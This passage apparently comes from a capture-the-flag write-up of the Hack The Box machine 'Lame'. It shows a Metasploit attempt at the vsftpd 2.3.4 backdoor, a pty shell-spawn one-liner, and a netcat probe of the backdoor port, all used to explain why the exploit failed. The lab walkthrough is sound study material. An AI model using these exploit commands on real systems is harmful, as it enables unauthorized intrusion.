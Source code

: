 ```bash

Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show payloads

Compatible Payloads
===================

   #  Name               Disclosure Date  Rank    Check  Description
   -  ----               ---------------  ----    -----  -----------
   0  cmd/unix/interact                   manual  No     Unix Command, Interact with Established Connection

msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set payload cmd/unix/interact
payload => cmd/unix/interact
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

This matches our earlier findings where manually exploiting this backdoor didn't work.

#### Why vsftpd 2.3.4 backdoor didn't work

We've root access after exploiting the SMB vulnerability so with that access on the machine we can check what happens on the machine when the backdoor is triggered.

First we'll switch from root to the Makis user account, we know Makis is an user because it has a folder in /home (we found the user.txt there).

```bash
id
uid=0(root) gid=0(root)
python -c "import pty;pty.spawn('/bin/bash')"
root@lame:/# su - makis -c bash
makis@lame:~$
```

We can try connecting on 127.0.0.1 to port 6200 as the Makis user

```bash
makis@lame:~$ nc 127.0.0.1 6200
(UNKNOWN) [127.0.0.1] 6200 (?) : Connection refused
```
